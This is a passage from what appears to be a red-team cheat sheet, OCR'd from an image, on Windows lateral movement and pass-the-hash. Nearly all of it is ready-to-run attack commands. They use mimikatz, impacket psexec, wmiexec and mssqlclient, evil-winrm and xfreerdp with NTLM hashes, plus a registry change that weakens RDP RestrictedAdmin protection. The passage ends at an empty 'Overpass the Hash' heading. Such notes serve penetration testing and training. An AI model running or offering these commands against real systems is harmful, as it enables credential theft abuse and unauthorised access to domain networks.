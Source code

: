 #### Local SYSTEM
```powershell
paexec.exe -s -i cmd
```
#### Remote Login
```powershell
paexec.exe -s [\\reddc.red.com](file://reddc.red.com) powershell
```
### SSH
```bash
ssh kevin@192.168.y.z
```
## Pass the Hash

### [mimikatz]
```powershell
mimikatz.exe "privilege::debug" "sekurlsa::pth /user:kevin /domain:m3c.local /ntlm:09238831b1af5edab93c773f56409d96" exit
```
### [PsExec]
```bash
python3 impacket/examples/psexec.py -hashes :052e763020c5da81d4085a05e69b0f1b [m3c/]pete@172.16.90.151
```
### [WinRM]
```powershell
evil-winrm -i 192.168.10.10 -u [m3c\\]kevin -H 052e763020c5da81d4085a05e69b0f1b
```
### [WMI]
```bash
python3 impacket/examples/wmiexec.py -k --no-pass [m3c/]zys@10.9.20.10
```
### [SQL]
```bash
python3 impacket/examples/mssqlclient.py -p 1433  -windows-auth m3c/svc_sql@10.10.20.9 -hashes :052e763020c5da81d4085a05e69b0f1b
```
### [RDP]
```
New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0

xfreerdp /v:192.168.10.10 /u:user /pth:[hash] /d:corp1.com /dynamic-resolution
```
or
```powershell
mimikatz.exe

privilege::debug

sekurlsa::pth /user:kevin /domain:m3c.local /ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
## Overpass the Hash (PTK)
